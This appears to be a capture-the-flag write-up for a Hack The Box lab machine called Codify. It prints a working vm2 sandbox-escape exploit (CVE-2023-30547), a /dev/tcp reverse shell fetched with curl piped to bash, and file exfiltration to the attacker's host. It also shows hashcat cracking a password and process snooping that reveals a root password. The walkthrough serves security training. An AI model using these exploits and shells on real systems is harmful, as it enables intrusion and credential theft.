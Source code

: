 
```
nmap -sC -sV {10.129.138.108}
```

I see ports 22, 80, and 3000 are open. When I visit port 80 I find the domain `codify.htb` and add the domain to the hosts file.


```
echo '10.10.11.239 codify.htb' | sudo tee -a /etc/hosts
```
In the directory `/editor` there is a code editor which allows us to test NodeJS code

The code editor uses the open source library `vm2`, which we can find on the `/about` page. There is a vulnerability CVE-2023-30547 in this library, this involves the improper sanitization of exceptions within the `vm2` sandbox, a feature intended to safely execute untrusted code. Attackers can exploit this flaw by raising a host exception that is not properly sanitized  in the `handleException()` function. By doing so, the attacker can escape the sandbox environment and execute arbitrary code on the host.

If we run the following code in the editor:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```
This executes the command `id`, which outputs:

```
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```
I prepared a `rev.sh`, a reverse shell to initiate a callback to our local machine.

```
  echo -e '#!/bin/bash\nsh -i >& /dev/tcp/<YOUR_IP>/4444 0>&1' > rev.sh
```
I run a web server to host the script:

```
python3 -m http.server 8081
```
And start a netcat listener:

```
nc -lnvp 4444
```

We edit the last line of the code on the web app to call the reverse shell.
```
c.constructor('return process')().mainModule.require('child_process').execSync('curl
http://10.10.14.99:8081/rev.sh|bash');
```
This gets us a shell on netcat, to get a better shell I ran `script /dev/null -c bash`.

Searching thru the web directories I found a SQLite database file in `var/www/contacts` directory. I transferred this file to my local box for more analysis.

On my local I ran, to listen:

```
nc -lnvp 2222 > tickets.db
```

Then sending the file to my local:

```
   cat tickets.db > /dev/tcp/10.10.14.99/2222
```

On my local I ran sqlite3 to analyze the file:

```
$ sqlite3 tickets.db

$ select * from users;
```
We get the user `joshua` and a hash, which I ran against hashcat to get the password `spongebob1`.

```
  hashcat --force -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

We can now ssh into `joshua` with those credentials. I found a user flag at `/home/joshua/user.txt`.

To find what files we can run as root I ran `sudo -l`, and joshua can run the file `/opt/scripts/mysql-backup.sh`. To get more analysis I ran the snooping tool `pspy64s`.

I downloaded the file locally and ran a web server in that directory:

```
$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
$   python3 -m http.server 8082
```
From the victim's box I used `wget`:

```
$ wget http://10.10.14.99:8082/pspy64s
$ chmod +x pspy64s
$ ./pspy64s
```

From another shell on our victim's box, we run the file we found from running `sudo -l`:
```
sudo /opt/scripts/mysql-backup.sh
```
After watching `pspy64s` run after we executed the file I found the root password `kljh12k3jhaskjh12kjh3`.

I login and get the root flag:

```
$ su root
$ cat /root/root.txt
```













